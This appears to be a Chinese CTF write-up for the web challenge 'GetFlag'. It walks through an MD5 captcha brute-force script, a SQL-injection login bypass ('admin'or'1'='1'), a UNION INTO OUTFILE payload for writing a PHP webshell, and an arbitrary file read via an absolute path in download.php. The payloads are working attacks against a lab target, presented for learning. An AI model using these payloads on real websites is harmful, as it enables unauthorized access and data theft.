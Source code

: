 ```yaml
---
title: GetFlag
date: 2018-03-16 00:00:02
categories:
- CTF/Web
tags: 百度杯十月 SQL注入 文件包含 MD5爆破
--- 
```


## 测试登录

验证码：`substr(md5(captcha), 0, 6)=b0b27d`


```python

# 带字母爆破

import hashlib
import itertools as its

words = "1234568790abcdefghijklmnopqrstuvwxyz"
r = its.product(words, repeat=5)

for i in r:
    a = "".join(i)
    md5 = hashlib.md5(a.encode('utf-8')).hexdigest()
    if(md5[0:6] == 'b0b27d'):
        print a
        break

```



```python

# 纯数字爆破

import hashlib
for i in range(1000000):
	fd = hashlib.md5()
	fd.update(str(i))
	x = fd.hexdigest()
	if(x[0:5] == code):
		print i
		break
```


测试万能密码登录成功：`admin'or'1'='1`，显然登录有一个注入点

登陆后跳转地址`/Challenges/action.php?action=file`  

页面中包含地址`./file/download.php?f=hello.txt`

## 利用点

1. /Challenges/action.php的action参数，文件包含？
2. /Challenges/file/download.php的f参数，任意文件读取？
3. 登录点存在注入

发现download.php可以使用绝对路径(/var/www/html)读取网站源码，相对路径（../）被过滤，以及位于`Challenges/file/a.php`文件的提示：`Do what you want to do, web dog, flag is in the web root dir`

## 歧途

尝试访问发现根目录`/var/www/html`下并没有flag.php，认为flag文件不是这个名字，于是想到列出网站根目录文件。于是需要getshell。

### sql写马

测试1.txt，发现并没有有权限，并且测试登录这里可以进行报错注入，这道题我甚至注出了admin的密码，不过并没什么用
```
username=admin&password=admin'+Union+Select+1,2,3+inTo+ouTfile+'/var/www/html/1.txt'+%23&captcha_md5=161645&submit=Submit
```

若有权限，可以使用如下方式继续测试
```
username=admin&password=admin'+Union+Select+1,'<?php phpinfo();?>',3+inTo+ouTfile+'/var/www/html/1.php'+%23&captcha_md5=161645&submit=Submit
```

### 文件包含

尝试在`/Challenges/action.php`利用`php://input`，然后post发送php语句执行。发现并没用，查看源码发现这里已经失去了php伪协议利用的条件。

```php
<?php

//action.php

	if (isset($_GET['action'])) {
		$model = "include/" . $_GET['action'] . ".php";
		if (!is_file($model)){
			echo "Model not exist!";
			exit; 
		} else {
			include_once($model);
		}
	}
?>
```

可见在include_once()的参数已经拼接上了`include/`字符串，所以这里无法利用除了相对路径以外的获取文件的方式。

## 根目录！！！

flag在网站根目录下，发现居然是`/var/www/html/Challenges/`目录下，你说这是网站根目录（无奈），利用download.php读到flag.php源码，访问`http:/784e6b7e50e74866a4cf3df85059c7eb49209b9d6b584d85.game.ichunqiu.com/Challenges/file/download.php?f=/var/www/html/Challenges/flag.php`

```php

<?php
$f = $_POST['flag'];
$f = str_replace(array('`', '$', '*', '#', ':', '\\', '"', "'", '(', ')', '.', '>'), '', $f);
if((strlen($f) > 13) || (false !== stripos($f, 'return')))
{
		die('wowwwwwwwwwwwwwwwwwwwwwwwww');
}
try
{
		 eval("\$spaceone = $f");
}
catch (Exception $e)
{
		return false;
}
if ($spaceone === 'flag'){
	echo file_get_contents("helloctf.php");
}

?>
```

直接download.php读取helloctf.php失败，分析源码逻辑，执行`"\$spaceone = $f"`最后判断`$spaceone===flag`，`eval`函数参数是一句完整的php语句，所以需要加上逗号，最后向`Challenges/flag.php`提交post参数`flag=flag;`







